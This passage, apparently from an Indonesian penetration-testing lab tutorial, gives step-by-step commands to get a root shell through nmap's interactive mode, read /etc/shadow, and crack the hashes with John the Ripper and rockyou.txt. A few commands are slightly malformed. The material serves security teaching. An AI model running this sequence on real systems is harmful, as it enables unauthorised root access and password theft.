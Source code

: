 ```
/usr/bin/nmap -–interactive
```
```
nmap> !sh
```
- Cek hak akses user setelah  eksploitasi
```
whoami
```
Jika berhasil, maka hak akses akan berubah menjadi root user

**6. _Cracking Password_**

- Memanfaatkan akses root untuk mendapatkan password
```
cat /etc/shadow/
```
- Buka terminal baru (kali linux) dan paste isi file tersebut ke file yang baru
```
sudo nano <file_password>.txt
```
- _Cracking_ file password menggunakan JohnTheRipper
```
john –-wordlist=<directory_wordlist> <file_password>.txt
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
```
Jika ingin menggunakan **rockyou.txt**, pastikan sudah di ungzip sebelumnya supaya file bisa digunakan.

John the Ripper akan mencoba mencocokkan hash dengan kata-kata dalam daftar dan akan menampilkan kata sandi yang berhasil di-_crack_ di layar. Jika berhasil, pengguna akan mendapatkan kata sandi dalam bentuk teks biasa (misalnya, msfadmin atau toor).
